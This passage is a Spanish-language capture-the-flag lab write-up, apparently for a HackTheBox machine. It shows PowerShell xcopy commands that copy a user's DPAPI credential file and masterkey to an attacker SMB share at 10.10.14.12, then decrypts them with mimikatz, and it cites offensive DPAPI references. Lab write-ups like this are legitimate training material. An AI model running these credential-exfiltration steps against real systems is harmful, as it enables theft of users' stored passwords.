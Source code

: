 Identificando así los archivos a ocupar para poder encontrar la contraseña del usuario loggeado:

![Archivos mimikatz](images/additional_1.png)

Una vez identificado, se extrajeron los archivos haciendo uso de un servidor `smb` y de `xcopy /h` (dado que son archivos de sistema) mediante:

```powershell
xcopy /h C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290 \\10.10.14.12\smbFolder

xcopy /h C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580 \\10.10.14.12\smbFolder
```

Para después descifrar la masterkey haciendo uso de mimikatz y del comando `dpapi::​masterkey​`.



## Referencias

- [Dbeaver](https://dbeaver.io/) (Disponible también mediante `apt install dbeaver`).
- [PSTViewer](https://goldfynch.com/pst-viewer/index.html).
- [PayloadAllTheThings - RunAs](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas).
- [0xdf Access writeup](https://0xdf.gitlab.io/2019/03/02/htb-access.html).
- [Operational Guidance for Offensive User DPAPI Abuse](https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/).
- [Microsoft - xcopy](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/xcopy)